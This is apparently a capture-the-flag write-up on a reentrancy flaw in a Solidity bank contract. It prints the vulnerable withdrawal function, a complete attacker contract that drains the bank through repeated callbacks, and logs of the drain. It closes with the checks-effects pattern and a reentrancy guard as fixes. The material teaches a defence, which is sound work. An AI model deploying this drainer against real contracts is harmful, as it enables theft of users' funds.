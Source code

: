 # Bank

## Vulnerability

Reentrancy






## Analysis

This challenge revolves around a reentrancy vulnerability, enabling a malicious actor to exploit a smart contract by repeatedly withdrawing ETH.

In the provided scenario, there's a Bank contract responsible for managing ETH balances for various users.
 The attack vector involves a malicious smart contract interacting with this Bank contract. When a contract receives Ether, 
 the `receive` function can be implemented to introduce logic into the transaction flow.

Due to the creation of a receive function in the malicious contract,
 the victim contract (in this case, the Bank contract) sends Ether to the malicious contract using the following line:

```
msg.sender.call{value: userBalance}("");
```
This allows the attacker to invoke the victim contract again before the initial withdrawal completes.

```
receive() external payable {
    if (address(victimBank).balance != 0) {           
        victimBank.withdrawAll();
    }
}
```

By calling the `withdrawAll` function again, the attacker retains funds in their account since the subtraction hasn't occurred yet.
 The deduction happens only after the transfer fails.

```
    uint256 userBalance = balances[msg.sender];

    (bool success, ) = msg.sender.call{value: userBalance}("");
```




![euler Image](./challangeImages/reentrancy.drawio.png)


### Exploited code

```solidity
function withdrawAll() external payable {
        // Check if the user has any balance
        require(balances[msg.sender] > 0,
         "No balance to withdraw");

        uint256 userBalance = balances[msg.sender];

        (bool success, ) =
         msg.sender.call{value: userBalance}("");

        require(success, "failed to send ether"); 

        //if succesful remove user credits
        balances[msg.sender] = 0;
}
```

# proof of concept (PoC) 

We start the exploit by deploying a malicious contract and sending it 1 ETH

```solidity
contract BankAttack {

    Bank public immutable victimBank;
    address public owner;

    constructor(address payable _victimAddress) {
       owner = msg.sender;
       victimBank = Bank(_victimAddress);
    }

    function attack() external payable {
        // call the deposit function
        victimBank.deposit{value: msg.value}();
        
        // call the withdraw function
        victimBank.withdrawAll();

        // send ether back to my wallet
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        console.log("Current balance of victimBank:", 
        address(victimBank).balance);

        if (address(victimBank).balance != 0) {           
            victimBank.withdrawAll();
        }
    }
}
```

Afterwards, we can initiate our attack by calling the `attack` function. This will:

- Call the `Deposit` function to deposit 1 ETH to the Bank contract
- Call the `Withdraw` function to withdrawl all of the Eth the user has (1 ETH)

Because the Bank contract transfers funds back to our contract `payable(owner).transfer(address(this).balance);`
we can call the withdraw function again in our receive funciton. the receive function is triggered when a contract receives ETH.

```solidity
   receive() external payable {
        if (address(victimBank).balance != 0) {           
            victimBank.withdrawAll();
        }
    }
```

When the Bank contract is drained we transfer the profit over to our wallet by utilizing
`payable(owner).transfer(address(this).balance);` 


Logs:
```
Player Balance before:  10000.0
Current balance of victimBank: 15000000000000000000
Current balance of victimBank: 12000000000000000000
Current balance of victimBank: 9000000000000000000
Current balance of victimBank: 6000000000000000000
Current balance of victimBank: 3000000000000000000
Current balance of victimBank: 0
Player Balance after:  10014.999131368948903685
```

Because of gas cost, its not 10015 but a little bit lower.



## Checks effect Pattern

To make sure the contract isnt elibble to be hijacked by flow contral after an extercal call we can use the checks effect pattern.

When a contract calls an external contract it also transfers the control flow.


```solidity
    // Check if the user has any balance
    require(balances[msg.sender] > 0, 
    "No balance to withdraw");

    uint256 userBalance = balances[msg.sender];

    //if succesful remove user credits
    balances[msg.sender] = 0;

    // transfer
    (bool success, ) = 
    msg.sender.call{value: userBalance}("");
    
    require(success, "failed to send ether"); 
```



It's important to note, that for programmers it might feel counterintuitive to code it this way, because normally
you would first want the transfer to be succesful and than change a balance, but in this case its neccesarcy to 
change the balance firs to prevent reentrancy, you can learn more about 
[solidity patterns](https://fravoll.github.io/solidity-patterns/) here




## Guard

There is also a guard modifier called nonreentrant that protects a function from being
entered again while its still in the process of executing, by creating a lock

A modifier is excecuted before a function.

```solidity

bool internal locked;

modifier noReetrant() {
    require(!locked, "No re-entrancy");
    locked = true;
    _;
    locked = false;
}

```


# Summary

To prevent a user to exploit your contract its important to secure it for reentrancy.
You can do it by adding a modifier or removing the player balance first and than transfering ETH.




